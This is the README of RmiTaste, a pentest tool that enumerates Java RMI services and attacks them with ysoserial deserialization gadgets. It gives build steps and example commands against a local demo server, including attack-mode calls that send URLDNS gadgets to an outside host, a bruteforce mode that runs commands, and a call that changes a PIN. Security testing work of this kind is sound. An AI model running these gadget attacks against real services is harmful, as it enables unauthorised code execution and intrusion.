 <p align="center">
  <img src="assets/rmitastepsd_white.png" width=200 height=300>
</p>

#
![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
# RmiTaste
 RmiTaste allows security professionals to detect, enumerate, interact and attack RMI services by calling remote methods with gadgets from ysoserial. It also allows to call remote method with specific parameters.
 
### Disclaimer
 RmiTaste was written to aid security professionals in identifying insecure RMI services on systems which the user has prior permission to attack. Unauthorised access to computer systems is illegal and RmiTaste must be used in accordance with all relevant laws. Failure to do so could lead to you being prosecuted. The developers of RmiTaste assume no liability and are not responsible for any misuse or damage caused by this program.

## Building and Running
 Requires openjdk 11.0.3.
 1. Download ysoserial-master-SNAPSHOT.jar and save it in libs_attack directory (https://github.com/frohoff/ysoserial).
 2. Build project using maven:
    ```bash
    mvn package
    ```
 3. Run command:
    ```bash
    java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
    
    
     __________        ._____________                __
     \______   \ _____ |__\__    ___/____    _______/  |_  ____
     |       _//     \|  | |    |  \__  \  /  ___/\   __\/ __ \
     |    |   \  Y Y  \  | |    |   / __ \_\___ \  |  | \  ___/
     |____|_  /__|_|  /__| |____|  (____  /____  > |__|  \___  >
           \/      \/                  \/     \/            \/
     @author Marcin Ogorzelski (mzero - @_mzer0) STM Solutions
    
    Warning: RmiTaste was written to aid security professionals in identifying the
             insecure use of RMI services on systems which the user has prior
             permission to attack. RmiTaste must be used in accordance with all
             relevant laws. Failure to do so could lead to your prosecution.
             The developers assume no liability and are not responsible for any
             misuse or damage caused by this program.
    
    ```
  
## Usage

RmiTaste has 4 modes: conn, enum, attack and call. Each mode has a separate help.
```bash
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste -h
(...)
Usage: <main class> [-h] [COMMAND]
  -h, --help   display this help message
Commands:
  conn    check connection to host
  enum    enumerate RMI service
  attack  attack RMI registry methods
  call    call specific method on RMI remote object
```
### conn mode
Conn mode allows to check if port is RMI service port.
```bash
# Check if 127.0.0.1:1099 is RMI Service
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste conn -t 127.0.0.1 -p 1099
```
### enum mode
Enum mode allows to fetch information about RMI service such as: remote objects names and classes names that remote object implements or extends. If interface implemented by remote object is available in RmiTaste classpath then RmiTaste will print all remote methods that you can call on this remote object.
```bash
# RMI service enumeration
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
```
### attack mode
Attack mode allows to call remote method with specific gadget chain from ysoserial. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call all remote methods with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -g "URLDNS" -c "http://rce.mzero.pl"
```

```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with URLDNS gadget as parameter
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -g "URLDNS" -c "http://rce.mzero.pl"
```


Option "-gen bruteforce" allows to brute force remote method with gadgets from ysoserial. In this example deposit method will be called multiple times with gadgets from ysoserial.
```bash
# Call acc1:m0.rmitaste.example.server.ClientAccount:deposit method with gadgets from ysoserial and command ping 127.0.0.1
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste attack -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:deposit" -gen bruteforce -c "ping 127.0.0.1"
```
### call mode
Call mode allows to call specific method on RMI remote object. Assume that remote object has following methods:
```bash
acc1 [object] [127.0.1.1:38293] 
         implements java.rmi.Remote [interface]
         extends java.lang.reflect.Proxy [class]
         implements m0.rmitaste.example.server.ClientAccount [interface]
                setPin(java.lang.String param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                getBalance(); [method]
                deposit(java.lang.Object param0); [method]
                        Parameters: param0;  may be vulnerable to Java Deserialization! [info]
                withdraw(float param0); [method]
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.getBalance method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:getBalance"
```

```bash
# Call m0.rmitaste.example.server.ClientAccount.setPin("1234") method on acc1 remote object
java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste call -t 127.0.0.1 -p 1099 -m "acc1:m0.rmitaste.example.server.ClientAccount:setPin" -mp "string=1234"
```

### Examples
Demo server is available <a href="https://github.com/STMSolutions/RmiServerExample">here</a>.

 1. Run demo server.
  
 2. Enumerate target.
  
  ```bash
  root@keyisinyourmind:/media/sf_pentest2/Tools/python/Toolset/Others/RmiTasteTool# java -cp ".:libs_attack/*:target/rmitaste-1.0-SNAPSHOT-all.jar" m0.rmitaste.RmiTaste enum -t 127.0.0.1 -p 1099
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		No methods found. I don't have remote object interface. Give it to me!
  ```
 As you can see, RmiTaste needs interface of remote object. During pentests you will have to find this interface. In this example, just copy rmitaste.examples-1.0-SNAPSHOT-all.jar to libs_attack directory.
 Enumerate target again:
  ```bash
 acc1 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

 acc2 [object] [127.0.1.1:42881] 
	 extends java.rmi.server.RemoteObjectInvocationHandler [class]
	 implements java.rmi.Remote [interface]
	 extends java.lang.reflect.Proxy [class]
	 extends java.rmi.server.RemoteObject [class]
	 implements m0.rmitaste.example.server.ClientAccount [interface]
		setPin(java.lang.String param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		getBalance(); [method]
		deposit(java.lang.Object param0); [method]
			Parameters: param0;  may be vulnerable to Java Deserialization! [info]
		withdraw(float param0); [method]

  ```

## Author
Twitter: <a href="https://twitter.com/_mzer0">@_mzer0</a>
Inspired by: <a href="https://github.com/NickstaDB/BaRMIe.git">BaRMIe</a> and  <a href="https://twitter.com/h0ng10">@h0ng10</a> <a href="https://mogwailabs.de/blog/2019/03/attacking-java-rmi-services-after-jep-290/">article</a>

